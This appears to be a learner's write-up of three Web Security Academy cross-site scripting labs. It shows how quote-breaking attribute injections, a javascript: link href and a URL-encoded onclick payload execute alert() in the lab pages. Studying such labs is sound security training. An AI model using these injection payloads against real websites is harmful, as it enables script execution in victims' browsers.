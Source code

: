 ### Lab: Reflected XSS into attribute with angle brackets HTML-encoded
We had an html tag:
```bash
<input type="text" placeholder="Search the blog..." name="search" value="">
```
`value` attribute equals to whatever we put inside of that input html element
Therefore if we put the following into the input element:
```
" onmouseover='alert(33)'
```
then we'll get:
```bash
<input type="text" placeholder="Search the blog..." name="search" value="" onmouseover="alert(33)" "="">
```
And it'll be reflected in url, so if user clicks on url and hovers a mouse over that input - then alert will be triggered

### Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded
This is a very simple stored XSS attack.

Our website stores a url that we provide in the input field in the database.
Later when this link is fetched to the frontend - the link is populated inside of an `<a>` element:
```bash
<a href="http://my-website.com">
```
What we can do is: we can provide a `javascript:alert(document.domain)` instead of `http` address and when user clicks on that link, the js code will be executed.
```bash
<a href="javascript:alert(document.domain)">
```

### Lab: Reflected XSS in canonical link tag
The page has:
```
<head>
  <link rel="canonical" href='https://0a970082045d0c3f83856454006800af.web-security-academy.net'/>
<head>
<body>
</body>
```
The value inside of `href` is going to be the same as the value in the url bar.
This means that we can change the url bar to the following:
```
https://fff.web-security-academy.net/?%27onclick=%27alert(33)
```

which will change the `<link>` tag that we'll get back from the server response:
```
<link rel="canonical" href='https://fff.web-security-academy.net/?'onclick='alert(33)'/>
```
